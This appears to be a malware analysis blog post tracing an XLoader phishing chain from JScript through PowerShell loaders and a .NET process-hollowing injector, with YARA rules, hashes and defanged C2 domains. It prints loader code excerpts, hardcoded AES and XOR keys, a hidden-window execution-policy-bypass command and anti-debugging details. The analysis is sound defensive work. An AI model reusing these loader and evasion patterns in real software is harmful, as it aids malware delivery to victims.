








## Introduction
Xloader is a stealer that was built on the FormBook malware family that first emerged in 2016; the rebranded Xloader was introduced in 2020. It is highly sophisticated malware that uses a combination of anti-analysis and obfuscation techniques, and it's written in pure assembly, so there are minimal compiler artifacts. 

The infection chain used in this campaign is widely used to deliver multiple different malware families in a very similar way, with almost identical loader characteristics. 

This campaign starts with a phishing mail with a malicious attachment. The attachment is an archive of JScript. The JScript is heavily obfuscated, and the next stage is stored in the `base64` string.

The next stage is a PowerShell script that is used to load another PowerShell script stored in `base64` and encrypted using AES with a hardcoded key and IV.

The invoked PowerShell has two binaries in it stored in different formats; the first one is a `.Net` module that will be injected in a predefined process "aspnet_compiler.exe" in this case stored in base64 and encrypted using rolling XOR with a hardcoded key. The second binary is stored in a list of integers, which is the final XLoader stage that will be loaded and executed using the `.Net` Assembly




flowchart LR
    classDef stage fill:#16161e,stroke:#3b4261,stroke-width:1px,color:#7aa2f7,font-weight:bold;
    classDef nodeStyle fill:#1f2335,stroke:#414868,stroke-width:1px,color:#c0caf5;
    classDef highlight fill:#1f2335,stroke:#ff9e64,stroke-width:2px,color:#c0caf5;
    classDef alert fill:#1f2335,stroke:#f7768e,stroke-width:1.5px,color:#c0caf5;

    subgraph S1 ["1. JScript Delivery"]
        A["Phishing 7z"] --> B["RFQ #10849013.js"]
        B --> C["Drop ps_*.ps1"]
    end

    subgraph S1C ["Cleanup"]
        C1["WMI Process Query"] --> C2["Terminate & Delete ps1"]
    end

    subgraph S2 ["2. AES PS Loader"]
        D["AES-256 Decrypt"] --> E["Invoke-Expression"]
    end

    subgraph S3 ["3. Process Monitor"]
        F["Poll aspnet_compiler"] --> G["XOR Decrypt & Reflect Load"]
    end

    subgraph S4 ["4. .NET Injector"]
        H["ConfuserEx2 / Anti-Debug"] --> I["Process Hollowing"]
    end

    subgraph S5 ["5. XLoader Payload"]
        J["Formbook Core"] --> K["C2 HTTP Traffic"]
    end

    C --> D
    C .-> C1
    E --> F
    G --> H
    I --> J

    class S1,S1C,S2,S3,S4,S5 stage;
    class A,B,C,C1,C2,D,E,F,G,H,I,J,K nodeStyle;
    class A,J highlight;
    class H alert;
    





## Analysis

### Stage 1:JScript loader delivered by email attachments
The first stage is an archive that contains a malicious script, delivered using email attachments using the sales quotation theme in a generic narrative and asking for an immediate response from the victim. 

The attachment is a `7z` file named as `RFQ #10849013.7z` that contains the first-stage loader JScript `RFQ #10849013.js` that runs by  `wscript.exe` when double-clicked or by `cscript.exe` using the command line.
The JScript code is minified and obfuscated using some variant of [obfuscator.io](https://obfuscator.io/), so the existing tools like [webcrack](https://webcrack.netlify.app/) can only be used to partially deobfuscate it. For a better result, there's [https://js-deobfuscator.vercel.app/](https://js-deobfuscator.vercel.app/), which is more aggressive in the optimization and changes the code heavily. It has a better result for static analysis, but the resulting script will not be runnable (with specific mangling options that result in a good result). 



It's possible to deobfuscate the code using AST transformation, as most of the code the existing tools did not recover (some indirect function calls, string array references, and arithmetic operations). It routes its operation through function calls or indirect object access. Anyway, the available tools create good results that we can work with. But we can use the clanker to do this task, as I already know all the functionality of the script. I can verify the result so we can get a pretty good result on how the original source code looks. 

> [!WARNING]
> I didn't test the if the the code that AI produced is runnable, as all I want was a cleaned version of the script for static review.

 [here's a gist of both versions](https://gist.github.com/d01a/fea2d599dc3a817b27f65b0eecefde6d)
 
The script has a large blob of base64 encoded string that is decoded and saved in the `.ps1` script file in `C:\Temp\` directory (creates it if it does not exist). The script file name is randomly generated in the following format: `ps_{RANDOM_12_CHARS}_{TIMESTAMP_EPOCH}.ps1`. Then the PowerShell script is executed using the decoded command `powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -File "C:\Temp\ps_AAUnx3BSGITW_1776175866536.ps1`.

It then uses the connection string `winmgmts:\\.\root\cimv2` to access the WMI service to clean up its artifacts. It executes the following query to get all PowerShell processes `SELECT * FROM Win32_Process WHERE Name='powershell.exe' OR Name='pwsh.exe'` then it matches for the spawned PowerShell loader process command line and terminates it using `<ISWbemObjectEx>.Terminate()`. 

It then deletes the dropped PowerShell file, and lastly, it terminates the parent `wscript` (or `cscript.exe`) by executing the command `taskkill /f /im wscript.exe` (or `taskkill /f /im cscript.exe`).

Basically, it just decodes the next stage payload from base64 and launches it in a separate PowerShell instance and cleans up artifacts dropped on the file system and process tree.

### Stage 2: PowerShell loader
The script is very large, as all the incoming stages are hidden inside it. It is formatted in a way that looks like a digital certificate/public key as shown:
```PowerShell

# AES-256 Decryption System
# =========================

# Encrypted Data
$encData = @'
ryme8nlMuZTbsH7AOT9pOigCQvYQHdpZv1AUDC5YMyyRZzNh/p42YtSgLhGaG9qM
th5LXPtqseEtAtPW0sgUEBWCPBrY9MW8hYeM8hEh07hnGqpItZEqBb2bMbSlu99N
...
/KaT63WnEF+zdSUKxRKY4dcoyDXEBP/4hEZG9vt4lbrtJVysd3wCt+JyWwdgFt2D
Y5GyHK4QiMrL0UW41qX0dQ==
'@
```
The script is crystal clear with no obfuscation layers at all. The `$encData` variable has a base64 text of the encrypted next-stage payload. The payload is encrypted using `AES-256` in `CBC` mode with `PKCS7` padding. The `key` and `IV` are base64 encoded and hardcoded in the script. The decrypted payload is executed directly via `Invoke-Expression`.
```PowerShell
# Decryption Key
$decKey = @'
WgvNL+mOatIhx9FbAR1aPpZN77R7IO8IV7ZXFxfNbKs=
'@

# Initialization Vector
$decIv = @'
ii9Vl0AESSKhgpcA8JiZgA==
'@

# <.....>

# Main Processing
$payload = & $base64Decoder $encData
$keyBytes = & $base64Decoder $decKey
$ivBytes = & $base64Decoder $decIv

if ($payload -and $keyBytes -and $ivBytes) {
    $scriptContent = & $aesDecryptor -data $payload -key $keyBytes -iv $ivBytes
    
    if ($scriptContent) {
        Invoke-Expression $scriptContent
    }
}
```

### Stage 3: Another PowerShell loader
This stage is not obfuscated too; all variable names and comments are still intact. It has 2 large blobs; the first is a base64 encoded string that acts as an injector that loads the second payload, which is an integer array of the binary bytes. The entry point of the script is `Start-MonitoringCycle`.
```PowerShell
# Main monitoring loop
function Start-MonitoringCycle {
    param(
        [string]$TargetProcess = "aspnet_compiler",
        [int]$CheckInterval = 5
    )
       
    # XOR encryption key - MAKE SURE THIS MATCHES THE KEY USED IN C# ENCRYPTION
    $XorKey = "DVSecretKey567"
    
    :monitoringLoop while ($true) {
        if (Test-ProcessAbsent -ProcessName $TargetProcess) {
            # The %base% variable now contains XOR-ENCRYPTED base64 data
            $xorEncryptedBase64 = "BASE64_PAYLOAD"
    # <.....>
```
As the name of the function implies, it enters an infinite loop and monitors for a `TargetProcess` to be running on the system by calling the `Test-ProcessAbsent` function, which executes the `Get-Process` command with the provided command and returns a Boolean value. If the process is not found in the running list, it will sleep for `CheckInterval` seconds. 

Once the `TargetProcess` is found, the first blob is base64 decoded and then decrypted using the rolling XOR key `DVSecretKey567` which is hardcoded and will be followed by the following stage, then base64 decoded again. 

The decrypted PE payload is a .NET stage that's used to inject the PE payload stored array into a legitimate target process: `C:\Windows\Microsoft.NET\Framework\v4.0.30319\aspnet_compiler.exe`. 

It invokes a specified method named in the function calling but hardcoded as `LAUNCH` from the type `ALTERNATE.EXECUTE` in the decrypted PE file.
```PowerShell
function Invoke-AssemblyExecution {
    param(
        [Byte[]]$BinaryData,
        [string]$TypeName,
        [string]$MethodName,
        [object[]]$MethodArgs
    )
    try {
        # Load binary assembly into memory
        $loadedAssembly = [System.Reflection.Assembly]::Load($BinaryData)
        # Get the target type
        $targetType = $loadedAssembly.GetType($TypeName)
        # Define method search flags
        $bindingFlags = [System.Reflection.BindingFlags]::Public -bor [System.Reflection.BindingFlags]::Static
        # Find the specified method
        $targetMethod = $targetType.GetMethod($MethodName, $bindingFlags)
        if (-not $targetMethod) {
            Write-Warning "Method '$MethodName' not found in type '$TypeName'"
            return $null
        }
        # Invoke static method with parameters
        return $targetMethod.Invoke($null, $MethodArgs)
    }
    catch {
        Write-Error "Assembly execution failed: $($_.Exception.Message)"
        return $null
    }
}

# First decrypt the XOR-encrypted data
$decryptedBase64 = XorDecrypt -EncryptedBase64 $xorEncryptedBase64 -Key $XorKey
if ($decryptedBase64) {
	# Then decode the base64 to get assembly bytes
	$assemblyBytes = [System.Convert]::FromBase64String($decryptedBase64)
    # Define target executable path
    $targetExecutable = 'C:\Windows\Microsoft.NET\Framework\v4.0.30319\aspnet_compiler.exe'
    # Prepare invocation parameters
    $invocationParams = [object[]]@($targetExecutable, $payloadData)
    # Execute the assembly method
    $executionResult = Invoke-AssemblyExecution -BinaryData $assemblyBytes `
                                                -TypeName 'ALTERNATE.EXECUTE' `
                                                -MethodName 'LAUNCH' `
                                                -MethodArgs $invocationParams
    # Update payload for next iteration
    [Byte[]]$payloadData = (<PE_BYTE_ARRAY>)
    # <....>
```

> [!NOTE]
> This exact loader flow is used to deliver different malware families like [VIP Keylogger](https://www.splunk.com/en_us/blog/security/behind-the-code-layered-defense-evasion-vip-keylogger.html#encryptedencoded-file-t1027013), [ASync RAT](https://www.filescan.io/uploads/69f169688a82359247b8c650/reports/b9ec2f65-5a0a-4125-92e4-e78775ae3a88/overview),[AgentTesla](https://www.joesandbox.com/analysis/1892273/1/html), [and ](https://www.joesandbox.com/analysis/1895762/1/executive)  [more here](https://hybrid-analysis.com/string-search/results/246aa9dc86f6277d9e0f9df92a88f394219f23fcb6503c4b403f1c41882d256d). So writing Yara rule based on the PowerShell script header is good for hunting generic malware with the same loader functionality but not good for a specific family detection rule.

### Stage 4: .NET Injector

#### Anti-Analysis checks in the `.cctor`
This stage assembly is protected by the well-known protector `ConfuserEx2 v1.6.0`,  method names are in Unicode, strings are obfuscated, and control flow is flattened. 

Using the extended version of the original `de4dot`, [de4dotEx by GDATA](https://github.com/GDATAAdvancedAnalytics/de4dotEx). The tool did all the heavy work and removed all the obfuscation layers; control flow is fixed, and all the strings are resolved, so it will be very easy to deal with it now. 

The static constructor `.cctor` of the module is used to validate the environment that it runs in. 



It checks for the usage of the .NET profiler by looking for the `COR_ENABLE_PROFILING` environment variable; if it is set to 1, it terminates the process immediately by calling `Environment.FailFast(null);`. 
Otherwise, it creates and runs a background thread for executing the method `smethod_0` that continues other anti-debugging checks. 
`smethod_0` creates another thread to execute itself and puts the previously created thread to sleep for 500 milliseconds. It then enters an infinite loop to watch for debugger usage by checking the `Debugger.IsAttached` property and `Debugger.IsLogging()`, if any of them is set, the process is terminated the same way as the profiling check. The secondly created thread is the one that carries the execution, and it terminates the process if this thread is terminated while the main thread is used as a backup thread, and it's put to sleep for 1 second every loop iteration.

This is all for the module constructor; let's move to the `ALTERNATE.EXECUTE.LAUNCH` method.

####  Main injector logic: `ALTERNATE.EXECUTE.LAUNCH` method
The malware uses typical process hollowing technique `CreateProcessA` -> `GetThreadContext`-> `ZwUnmapViewOfSection` -> `VirtualAllocEx` -> `WriteProcessMemory` -> `SetThreadContext` -> `ResumeThread`.  If the process failed, it tries for 5 times and exits. 

It first opens a creates a new process using the path specified in `targetPath` which is `aspnet_compiler.exe` as explained previously.  It then saves the thread context and unmaps the original process memory. It then allocates memory section for the next-stage code and writes it section by section. It then updates the context of the thread running to update the instruction pointer `RIP` and resume thread execution of the malicious code.

### Stage 5: XLoader
Running this stage in an analysis environment will not lead to anything. Also, checking the public sandboxes output has nothing useful. Of course the sample did not run successfully and was disrupted, as there are multiple anti-analysis techniques.



Checking the metadata of the PE file did not reveal anything too! The import table is empty and has no meaningful strings (as expected). Inspecting the structure of the sample, it has a `.text` section and unexplored (no direct references to it) data.
The full analysis of this last stage will be on a different blog.

## Network traffic: PCAP analysis

Inspecting the captured traffic, it's noticeable that it relies on the HTTP method. XLoader (formbook) uses fake domains (legitimate and non-existent) that did not relate to the malware C2 at all, and to further harden the problem, it communicates with all the domains the same way. 



Similar requests are sent to all the domains, and they wait for the response. The domains that are non-existent or the legitimate domains that do not have the path that the malware is trying to communicate to are responding with codes that indicate a problem in the connection: 301, 302, 404, 405, 403, 502 including the real C2 server.






The real C2 server acts exactly like other dummy domains used; it responds in a way that indicates an error happened even if the request is received correctly and the server responded. One distinction that could be used to differentiate the real C2 explained [in this talk: Chasing XLoader: Tracking a Notoriously Complex Malware Family at Scale](https://www.youtube.com/@BotConfTV) is that in some cases the real C2 responds with "Content-Type: text/html; charset=utf-8" instead of "Content-Type: text/html," but it's not reliable, as some legit websites might respond with it and the C2 in some cases didn't have this artifact.


## Yara
As I mentioned above, the PowerShell loader that was used is used in the exact same characteristics to load different malware families, so we can use its strings to build a generic rule to hunt for the samples that are delivered in the same way:

```yaml
rule GENERIC_Xloader_PS_prestage_loader {
    meta:
        malware = "GENERIC Loader"
        author = "d01a"
        description = "Hunt for GENERIC script loader that used ton deliver multiuple malware families"
		date = "2026-08-31"
		sha256 = "8e60280c59b760a2e8c88d51e9fc8cb68c9ebe55b15106bd127cfdabab740bfc"
        
		
    strings:
        $s0 = "# AES-256 Decryption System" ascii
        $s1 = "# =========================" ascii
		$s2 = "# Encrypted Data" ascii
		
		
    condition:
        all of them
}
```

.Net stage detection rule (works on obfuscated and clean assembly)
```yaml
rule GENERIC_Xloader_prestage_NET_Loader {
    meta:
        malware = "GENERIC_Xloader_prestage_NET_Loader_obf"
        author = "d01a"
        description = "detect GENERIC Xloader-prestage .NET Loader - obfuscated with confuser"
        date = "2026-08-31"
        sha256 = "d324cee32a91d3761dbcd3a442088f130ad1a30a30590b24bfa1b52a7b212968"
        sha256 = "c729348afbf9e37bc065f755570699ca3579417579adef5a11ad0fdbe3977a29"

    strings:
	
        $s1 = "Confuser.Core 1.6.0" ascii
        $s2 = "COR_ENABLE_PROFILING" wide
		
		$s3 = "Failed to resume thread" wide
		$s4 = "Failed to write section" wide
		$s5 = "Failed to unmap section" wide
		$s6 = "Failed to get thread context" wide
		$s7 = "Failed to update PEB" wide
		
    condition:
        uint16(0) == 0x5A4D
        and (uint32(uint32(0x3C)) == 0x00004550)
        and 5 of them
}
```

## File IoCs

| File                     | SHA256                                                           |
| ------------------------ | ---------------------------------------------------------------- |
| RFQ #10849013.7z         | 6e6eec005d21335366a91f6d53dd1a82a0558b870121ca124d02754fd96a3c3f |
| RFQ #10849013.js         | 9297af5f66486d11540f15b44d4b6beec6ff89dbc4dcdee898db9a7daaa76085 |
| First PowerShell stage   | 8e60280c59b760a2e8c88d51e9fc8cb68c9ebe55b15106bd127cfdabab740bfc |
| Second PowerShell stage  | a22c067293ed13e08c8c7c074c1b7cdceda7939d273205e903883e6c71d47249 |
| .Net loader - obfuscated | d324cee32a91d3761dbcd3a442088f130ad1a30a30590b24bfa1b52a7b212968 |
| .Net loader - cleaned    | c729348afbf9e37bc065f755570699ca3579417579adef5a11ad0fdbe3977a29 |
| XLoader final stage      | 456e270b4286faaebf65ba8feb11d76c84f9e8087ffa527a04f3449bdb638448 |
## Domains
```
www[.]3700421[.]xyz 
www[.]aistero[.]store
www[.]aitutoring[.]vip
www[.]brockenbow[.]com
www[.]cinella[.]life
www[.]f6731[.]com
www[.]gradlist[.]ru
www[.]helpierus[.]ru
www[.]istrakabiinw[.]info
www[.]kanui[.]com[.]br
www[.]kelimemaster[.]com[.]tr
www[.]optickjawabarat[.]online
www[.]pechimag-ekb[.]ru
www[.]pevnenko[.]tech
www[.]scbcgm[.]com
www[.]simonidapure[.]net
www[.]smarte3info[.]fr
www[.]smartfavesden[.]shop
www[.]sololevelingshop[.]co[.]uk
www[.]sqws-adguard[.]co[.]in
www[.]sy-idea[.]com
www[.]thesisclaw[.]xyz
www[.]tradox[.]rest
www[.]troitt[.]com
www[.]trylegbots[.]com
www[.]vianovamobility[.]shop
www[.]vk-mellstroy[.]online
www[.]von-tors[.]ru
www[.]x5js8[.]click  <--
```